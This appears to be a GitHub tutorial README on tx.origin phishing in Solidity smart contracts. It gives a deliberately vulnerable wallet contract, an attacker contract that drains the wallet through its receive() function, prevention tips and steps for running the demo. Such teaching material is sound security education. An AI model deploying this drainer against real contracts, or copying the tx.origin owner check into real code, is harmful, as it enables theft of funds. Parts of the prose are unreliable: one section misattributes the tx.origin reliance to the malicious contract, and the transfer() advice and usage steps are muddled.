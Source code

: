 # What is Tx Origin Attack?
A "Tx Origin Attack" in the context of blockchain and smart contracts occurs when an attacker deploys a malicious contract disguised as a regular wallet. This malicious contract, when funded by the owner of a vulnerable smart contract, deceives the owner into thinking they are performing actions only the owner should be able to do. The attacker exploits the tx.origin variable, which initially appears to represent the owner's externally owned account (EOA). However, the attacker's contract uses this deceptive information to carry out unauthorized actions, potentially leading to the theft of funds, private keys, or other sensitive data. To prevent such attacks, it is crucial for developers to use msg.sender for access control within smart contracts and for users to exercise caution when interacting with unfamiliar contracts.

```solidity 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
// phishing with tx.origin

contract txorigin_wallet{
    address public owner;

    constructor(){
         owner = msg.sender;
    }

    function deposit() public payable{
    }

    function transfer(address payable to, uint amt) public{
         require(tx.origin == owner, "Not the owner");
         (bool sent, ) = to.call{value: amt}("");
        require(sent, "failed to send ether");
    }

    function getBalance() public view returns (uint){
        return address(this).balance;
    }
}


``` 



# How does it happen?
A "tx.origin" attack is a security vulnerability in smart contracts on blockchains like Ethereum. It happens when a malicious contract relies on the "tx.origin" variable to identify the original sender of a transaction. An attacker lures a user into interacting with their malicious contract, and if that user interacts with the attacker's contract while originating from a different contract, the attacker's contract can be tricked into thinking the user is someone else, potentially leading to unauthorized actions or loss of funds. To mitigate such attacks, developers are advised to use the more secure msg.sender variable instead of tx.origin when determining the sender of a transaction within their smart contracts, as msg.sender always represents the immediate sender of the transaction and cannot be as easily manipulated or spoofed.

# Example of Tx Origin Attack.
Here is an example code for tx origin attack.

```solidity 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
// phishing with tx.origin

interface Itxorigin{
       function transfer(address payable to, uint amt) external;
       function getBalance() external view returns (uint);       
}

contract attacktxorigin{
         address public owner;
         Itxorigin public immutable mytxorigin;

        constructor (address  addr){
            mytxorigin = Itxorigin(addr);
            owner = msg.sender;
         }

        receive() external payable {
                      mytxorigin.transfer(payable(owner), mytxorigin.getBalance());
        }                     
}


``` 


# How to prevent?
- Never use tx.origin to check for authorisation of ownership, instead use msg.sender
- Don’t use address.call.value(amount)(); instead use address.transfer()
address.transfer() will have a gas stipend of 2300 — meaning possible attacking contracts would not have enough gas for further computation other than emitting Events

# How to use our code: 
- First you need to deploy the txorigin_wallet contract. You can perform deposit and balance check operation here.
- Then you deploy the attacktxorigin contact.
- Using owner account you try to transfer an amojnt to another address. That address will be the owner and transfer all the money from smart conrtact to its own account.
